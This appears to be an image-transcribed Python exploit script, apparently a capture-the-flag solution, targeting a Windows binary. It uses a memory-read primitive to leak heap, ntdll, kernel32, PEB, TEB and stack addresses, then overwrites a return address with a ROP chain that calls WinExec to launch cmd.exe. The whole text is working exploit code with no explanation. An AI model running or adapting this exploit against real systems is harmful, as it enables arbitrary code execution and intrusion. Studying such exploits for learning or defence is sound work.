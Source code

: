 ```python
vs_flink = readmem(vs_segment)
VsContext = vs_flink ^ vs_segment
print(hex(VsContext))
heap_base = VsContext - 0x2a0

# leak ntdll base
# _SEGMENT_HEAP -> LfhContext -> AffinityModArray
LfhContext = heap_base + 0x340
print(hex(LfhContext))
AffinityModArray = readmem(LfhContext+0x32) << 16
print(hex(AffinityModArray))
ntdll = AffinityModArray - 0x120000

# leak binary imagebase
pebldr = ntdll+0x16a4c0
immol = readmem(pebldr + 0x20)
imagebase = readmem(immol+0x28) - 0x2364
print(hex(imagebase))

# leak kernel32 base, winexec address
iat = imagebase + 0x3000
readfile = readmem(iat)
kernel32 = readfile - 0x24ee0
winexec = kernel32 + 0x67200

# leak stack
peb = readmem(ntdll + 0x16a428) - 0x240
teb = peb+0x1000
stack = readmem(teb+0x11) << 8
stack_end = stack + (0x10000 - (stack & 0xffff))

print("binary imagebase: "+ hex(imagebase))
print("kernel32: "+hex(kernel32))
print("peb:" +hex(peb))
print("teb:" +hex(teb))
print("stack:"+hex(stack))


# find return address to overwrite
ret_addr = imagebase + 0x1ca7
start_addr = stack_end - 8

for i in range(0x200):
    addr = start_addr - 8*i
    if readmem(addr) == ret_addr:
        ret = addr
        break

def writemem(addr,data):
    setvalue(7,1,currupt_ptr_off,addr)
    setvalue(6,3,len(data)+1,data)

buf = imagebase + 0x5800
writemem(buf,"C:\\Windows\\system32\\cmd.exe\x00")


ret_gadget = imagebase + 0x1b11
pop_rcx = ntdll + 0x8c541 # pop rcx; pop r8; pop r9; pop r10; pop r11; ret
rop = p64(pop_rcx) + p64(buf) +"b"*32+ p64(ret_gadget) + p64(winexec)  + "b"*8

writemem(ret,p64(ret_gadget)*10 + rop)

p.interactive()
```
